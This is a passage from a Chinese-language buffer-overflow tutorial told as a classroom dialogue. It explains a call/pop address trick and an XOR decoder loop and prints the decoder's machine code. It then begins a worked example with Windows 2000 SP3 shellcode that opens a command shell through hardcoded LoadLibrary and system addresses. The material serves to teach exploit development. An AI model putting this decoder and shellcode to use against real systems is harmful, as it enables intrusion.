 “如何定位的呢？”大家有点奇怪。

“Call 的功能大家还记得吧？ call decode_start 会完成两个功能： push EIP，JMP decode_start ，即先保存下一句指令的地址，然后跳到 decode_start 处执行。”

“而 call decode_start 后面紧跟 enShellCode，所以 push EIP 就会把紧跟后面的 enShellCode 的地址保存在堆栈中，然后跳到 decode_start 处执行。”

大家点点头。

“而在 decode_start 处，马上 pop edx ，就会把保存的 EIP（其实就是 enShellCode 的地址）赋给 edx，这样 edx 就是 enShellCode 的地址了。示意图如图 5－5。”

![](img/Q 版缓冲区溢出教程 153287.jpg) “哦！原来这样获得 enShellCode 的地址啊！”大家恍然大悟。

“这是种动态定位地址方法，很多地方都有使用。”老师说道，“我们继续往下看。”

```
decode_loop:
xor byte ptr [edx+ecx], 0x97 //因为编码时用的 Key 是 0x97，所以解码要一样
loop decode_loop //循环解码 
```

“ xor byte ptr [edx+ecx], 0x97 就是对 enShellCode 解码——异或 0x97；而 loop decode_loop 是一个循环，功能是 ecx 减一，如果 ecx 不为 0，就跳到 decode_loop 继续执行。这样，我们就可解码 ecx 这么多个字节，这里 ecx 赋成的是 0x200（500 多个字节），一般的 ShellCode 都应该够了。”

“看来解码的关键就是这里啊！”

“是的，最后 jmp decode_ok 是跳转到复原的 ShellCode 中执行，这样就完成了 decode 的功能。”

“哦，明白了！”

“好了，大家清楚了流程和思路，我们就提取出 decode 的机器码吧！”

“这种活就不要和我争了，我来！”古风争先恐后的说，“在 VC 里面加上‘__asm’关键字，然后按 F10 进入调试状态，选择‘disassemble’和‘Code Bytes’，就会出现汇编对应的机器码，如图 5－6。我们把它们抄下来就可以了。”

![](img/Q 版缓冲区溢出教程 153882.jpg)

“最后得到 decode 的代码为如下：”古风抄完后得意的说道。

```
decode[] = 
    “\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x00\x02”
    “\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB\xFF\xFF\xFF” 
```

“不错！”老师说，“我们用一个实际例子检验看看！”

# 5.2.4 实例——异或 DOS 窗口程序

### 5.2.4 实例——异或 DOS 窗口程序

“我们还是以 Win2000 中文版 SP3 下的开 DOS 窗口的 ShellCode 为例。大家应该很熟悉了吧？原来的 ShellCode 如下：”

```
ShellCode[] = 
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //SP3 system 的地址 0x7801afc3
    "\xFF\xD0" 
```
